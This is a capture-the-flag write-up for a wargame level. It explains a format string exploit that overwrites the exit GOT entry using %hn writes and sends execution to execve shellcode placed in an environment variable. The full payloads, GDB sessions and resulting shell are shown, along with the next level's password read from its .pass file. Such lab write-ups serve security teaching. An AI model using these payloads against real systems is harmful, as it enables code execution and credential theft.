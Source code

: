 ## LEVEL 05
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level05.asm) and the [source file](./src/level05.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

For this level the usage of buffer overflow is possible, almost every security are removed.
---

This level is way shorted than the previous levels but that does means it's easier. I recommend that you read the entire source code to understand the rest of my explanation.

First thing I notice when I saw this level, is the usage of printf with a buffer. That means we can use a format string attack to leak and change the value of the program.

Second thing I notice is that the program doesn't use `ptrace` to prevent us from using a debugger. So we can use GDB again.

Third thing I didn't say any `system` call. That means we have to use a shellcode to get to flag.

And the last thing I notice is the call to `exit` at the end of the program. That means we can't overflow the return address but we can overwrite the address pointed by `exit<+0>`.

Now that we know what we have to do, the question is "How do we do it ?".

Before to do anything with GDB, I have to export the shellcode.

```bash
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now I search the address of this environment variable in our program.

```shell
(gdb) x/s *((char **)environ)
0xffffd889:	 "SHELLCODE=\220\220\220\220\220\220\220[...]
```

Perfect the address I will use is `0xffffd8a9`. Now I need to find the address of `exit<+0>`.

```shell
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

The address is `0x080497e0`. Now I will do the same this as the level3 of rainfall. I will write this address, then the value to overwrite it's value with `%n`.
The last thing I need is the distance between %esp and here my buffe is stored.

```shell
(gdb) x/x $esp
0xffffd610:	0xffffd638
```
Perfect the distance is `0x28` or `40` in decimal. Let's try to overwrite the address pointed by `exit`.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + " %10$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + " %10$n"')


Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00000005
```

Now I convert the address of my shellcode in decimal. 
`ffffd8a9 <==> 4294957225`

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + " %4294957225ld%10$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + " %4294957225ld%10$n"')

Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

Oh, this is not what I expected, but why? The reason is that the number 4294957225 is too large to fit in a 32-bit register, and it may also be too long to be used as padding in `printf`. To solve this problem, I will use the `%hn` flag, which will write one WORD instead of one BYTE. For a more detailed explanation of how it works, I recommend reading the source code provided at the bottom of this README. It provides a well-explained description of the technique.

First we need to write two addresses, the address of `exit` and the address of `exit+2`.
To change word by word.

```shell
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$n" + "%20d%11$n"'
-- ADDRESS OF ONE --- ADDRESS OF TWO --- %{value to write}%{argument number where I change the value} --- %{value to write}%{argument number where I change the value}
```

Let's try it.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$n" + "%20d%11$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$n" + "%20d%11$n"')
       100          -134415680

Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00260012
```

Perfect, now I just need to change it with the address of my shellcode. But before I have to transform the address to fit in two WORD.

```
Initial address of shellcode -> 0xffffd8a9
First WORD : d8a9
- convert to decimal = 55465
- minus 8 = 55457 (Remove the addresses before)
==> 55457

Second WORD : ffff
- convert to decimal = 65535
- minus 8 = 65527 (Remove the addresses before)
- minus 55457 = 10070 (Remove the first WORD length)
==> 10070
```
Perfect now I just have to put it in my payload.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55457d%10$n" + "%10070d%11$n"')
[...]
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0xffffd8a9
(gdb) q
$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55457d%10$n" + "%10070d%11$n"'; cat -) | ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

---

*Source :*

*https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf*